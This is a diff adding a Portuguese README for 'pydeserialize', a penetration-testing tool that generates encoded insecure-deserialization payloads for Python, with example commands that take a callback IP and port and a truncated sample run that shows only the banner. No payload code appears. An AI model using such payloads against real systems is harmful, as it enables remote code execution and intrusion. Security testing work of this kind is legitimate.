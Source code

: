 ```diff
+
+<p align="center">
+  <a href="#características">Features</a> •
+  <a href="#instalação">Install</a> •
+  <a href="#forma-de-utilização">How to use</a> •
+  <a href="#executando-pydeserialize">Usage</a>
+</p>
+
+---
+
+
+O pydeserialize é uma ferramenta que gera payloads de desserialização insegura em python. Possui uma funcionalidade que faz encode das payloads desejadas e dessa forma sendo simples e otimizada para velocidade. pydeserialize é construído para fazer apenas uma coisa - gera payloads de desserialização insegura + encodes e faz isso muito bem.
+
+Projetei o `pydeserialize` para cumprir todas as responsabilidades para gera payloads e encodes, mantive um modelo consistentemente passivo para torná-lo útil para testadores de penetração.
+
+# Características
+
+ - Gera payloads para explora vulnerabilidades de desserialização insegura em python    
+
+# Forma de utilização
+
+```sh
+pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
+pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux
+```
+Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
+```yaml
+           _                 _     _ _         
+ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
+| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
+|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
+|_| |___|  
+     v0.0.8 - @joaoviictorti
+
+options:
+  -h, --help            show this help message and exit
+  -ip IP                Insert ip
+  -p PORT               Insert port
+  -e {b64,shell,urlencode,hex} Insert encoding
+  -o {Windows,Linux}    Insert operational system
+```
+
+# Instalação
+
+pydeserialize requer **python3** e para baixá-lo só usar:
+
+```sh
+pip3 install pydeserialize
+```
+
+# Executando pydeserialize
+
+```console
+pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell
+
+           _                 _     _ _         
+ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
+| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
+|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
```